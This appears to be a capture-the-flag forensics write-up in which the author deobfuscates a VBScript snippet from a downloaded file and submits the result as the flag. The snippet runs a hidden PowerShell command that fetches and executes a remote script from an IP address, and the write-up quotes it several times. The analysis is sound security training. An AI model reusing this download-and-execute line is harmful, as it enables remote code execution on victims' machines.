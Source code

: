 ![image-20240414085427185](./assets/image-20240414085427185.png)

Download the file and extract it.

![image-20240415170451165](./assets/image-20240415170451165.png)

![image-20240415170530572](./assets/image-20240415170530572.png)

I need to find a PowerShell command, so I searched for the "powershell" string.

![image-20240415170635705](./assets/image-20240415170635705.png)

It was a code to execute a shell command.

```
bwetjtzw = "-Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')"
grexpzgt = "Shell.Application"
rntwywkh = "powershell"
CreateObject(grexpzgt).ShellExecute rntwywkh, bwetjtzw ,"","",0
```

Let's substitute a variable into the code.

```
CreateObject("Shell.Application").ShellExecute "powershell", "-Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')" ,"","",0
```

Reconstruct the PowerShell command.

```
powershell -Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')
```

```
forensic{powershell -Command Invoke-Expression (Invoke-RestMethod -Uri '123.124.106.221/gzewaehzw')}
```

